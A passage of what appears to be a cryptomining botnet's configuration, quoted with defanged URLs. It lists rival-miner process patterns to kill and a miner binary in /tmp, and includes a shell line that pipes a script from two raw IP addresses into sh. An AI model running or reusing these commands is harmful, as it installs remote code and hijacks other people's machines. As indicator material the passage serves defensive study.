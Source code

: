 ```
                    'Version': -1
                `}`,
                `{`
                    'Expr': './xmr-stak|./.syslog|/bin/wipefs|./xmrig|/tmp/wnTKYg|/tmp/2t3ik',
                    'Id': 484,
                    'Timeout': '60s',
                    'Version': -1
                `}`,
                `{`
                    'Expr': '/tmp/qW3xT.+',
                    'Id': 481,
                    'Timeout': '60s',
                    'Version': 3017
                `}`
            ],
            'LKProc': [`{`
                'Expr': '/tmp/qW3xT.5',
                'Id': 488,
                'Timeout': '60s',
                'Version': 3020
            `}`],
            'Sh': [`{`
                    'Id': 479,
                    'Line': '(curl -fsSL hxxp://104.248.181.42:8000/i.sh||wget -q -O-  hxxp://132.148.241.138:8000/i.sh) | sh',
                    'Timeout': '120s',
                    'Version': -1
                `}`,
                `{`
                    'Id': 486,
                    'Line': 'chattr -i /tmp/qW3xT.5; chmod +x /tmp/qW3xT.5',
                    'Timeout': '20s',
                    'Version': 3017
                `}`
            ]
        `}`,
        'Config': `{`
            'Interval': '60s'
        `}`,
        'Miner': [`{`
            'Exe': '/tmp/qW3xT.5',
            'Md5': 'fb6bf5af8771b0dc446861484335fc5e',
            'Url': '/static/qW3xT.5'
        `}`]
    `}`,
    'Signature': [0x3b,0xd9,0x73,0x04,0x6d,0x75,0x68,0xe8,0xdd,0xd6,0x0c,0x5e,0xac,0xd1,0x29,0x2d,0x16,0x31,0x03,0xf4,0xfb,0xbb,0xa8,0x7d,0xba,0x6a,0xc8,0xda,0x6f,0xec,0x42,0x16,0x6a,0x00,0x8b,0x62,0x3f,0xa1,0x11,0x9b,0x16,0xe8,0xf2,0x13,0xb1,0x45,0x40,0xc5,0xd4,0xc6,0xaa,0x90,0x99,0x98,0x4b,0xc9,0x70,0x66,0x77,0x18,0xa9,0x82,0x53,0xb9,0x4f,0x10,0x05,0xdf,0x8d,0x6c,0x3a,0x31,0x2b,0x45,0x6f,0x9d,0xcb,0xd2,0x7d,0x5e,0x90,0x5f,0xb9,0x59,0x9e,0xa2,0x40,0x02,0x1b,0xe9,0xed,0xd5,0x57,0xb5,0x09,0x41,0x1e,0xd8,0x41,0xd8,0x0b,0xa8,0xd1,0x54,0x00,0xab,0x43,0xdc,0x70,0xce,0xca,0x14,0xc5,0x19,0xc9,0x37,0x0f,0x19,0xe0,0x02,0x95,0x30,0x57,0xa6,0xbb,0xc4,0xa6,0x85,0x51,0xcc,0x9b,0x0d,0xc4,0xc5,0x7d,0xb9,0xc4,0xa0,0x93,0x00,0xec,0x52,0x06,0x77,0xfe,0x82,0x52,0x1e,0x88,0xf2,0xe2,0xc6,0x21,0x3e,0x81,0x7e,0x1e,0x53,0x9d,0xb0,0xab,0xd4,0xc2,0xa3,0x85,0x8b,0xef,0xac,0xdd,0x9d,0x4b,0x5a,0x13,0x8e,0xa1,0x31,0x6d,0xc5,0xb2,0xf4,0xca,0x54,0x85,0x29,0xa0,0x62,0x0d,0xac,0xde,0xfa,0x86,0x09,0x2b,0x1c,0x05,0x5f,0xa0,0xa4,0x91,0x11,0xb0,0x6d,0x7e,0x1c,0xab,0x31,0x6f,0xca,0x64,0x15,0x44,0xe5,0xaf,0x24,0x12,0xb6,0x74,0xde,0x9c,0xc1,0xf7,0x0c,0x22,0x80,0x1f,0x07,0x2b,0x57,0xe2,0xfb,0xf9,0x39,0x0b,0x1b,0x4f,0xa3,0x82,0x07,0xce,0x35,0x41,0x23,0x73,0x94,0x8c,0x27,0x1b,0x77,0x1f,0x5e,0xdd,0xb5,0xb1,0xa6,0xa1,0x6c]
`}`
```
